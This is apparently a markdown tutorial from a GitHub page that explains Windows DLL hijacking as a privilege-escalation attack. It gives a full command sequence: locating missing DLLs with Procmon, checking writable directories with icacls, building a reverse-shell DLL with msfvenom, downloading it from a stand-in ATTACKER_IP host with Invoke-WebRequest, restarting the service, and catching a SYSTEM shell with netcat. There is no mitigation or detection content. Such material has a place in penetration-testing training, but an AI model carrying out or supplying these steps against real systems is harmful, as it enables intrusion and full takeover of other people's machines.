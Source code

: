 **DLL Hijacking** is a technique that exploits how Windows applications load Dynamic Link Libraries (DLLs). If an application or service loads a DLL without specifying a full path, and a low-privileged user can write to the directory where the application searches first, an attacker can place a malicious DLL with the same name. When the application runs (especially with elevated privileges), it loads the attacker's DLL, leading to code execution with the same privileges.

> A **DLL (Dynamic Link Library)** is a file that contains code and data used by multiple programs in Windows. Instead of duplicating functions across applications, DLLs allow programs to share common functionality making software more modular and efficient.

---

## 1. Identify a Vulnerable Application or Service

Look for applications or services that:

- Run with elevated privileges (e.g., SYSTEM)
- Load DLLs from writable directories
- Do not use full paths when loading DLLs

Use tools like **Process Monitor (Procmon)** to detect DLL load attempts:

```text
Filter:
  Operation is CreateFile
  Path ends with .dll
  Result is NAME NOT FOUND
```

Look for missing DLLs in writable paths like:

```
C:\Program Files\VulnApp\
C:\Users\Public\
```

---

## 2. Check Write Permissions

Verify that your user can write to the target directory.

```powershell
icacls "C:\Program Files\VulnApp"
```

Look for permissions like:

```
BUILTIN\Users:(I)(M)
```

This means users can **modify** files in the directory.

---
## 3. Create a Malicious DLL Payload

Use `msfvenom` to generate a reverse shell DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f dll -o evil.dll
```

---

## 4. Rename the DLL to Match the Missing One

If Procmon showed the application was looking for `example.dll`, rename your payload:

```bash
mv evil.dll example.dll
```

---

## 5. **Transfer the DLL to the Target Directory

Use a file transfer method like Python HTTP server:

```bash
python3 -m http.server 8080
```

On Windows:

```powershell
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/example.dll" -OutFile "C:\Program Files\VulnApp\example.dll"
```

---

## 6. **Trigger the Application or Service

Start or restart the vulnerable application or service so it loads your malicious DLL.

```powershell
# If it's a service
Restart-Service -Name "VulnAppService"
```

Or manually launch the application if it's user-triggered.

---

## 7. Catch the Reverse Shell

On Kali, start your listener:

```bash
nc -lvnp YOUR_PORT
```

Once the DLL is loaded, you should receive a shell with the privileges of the application (often SYSTEM).
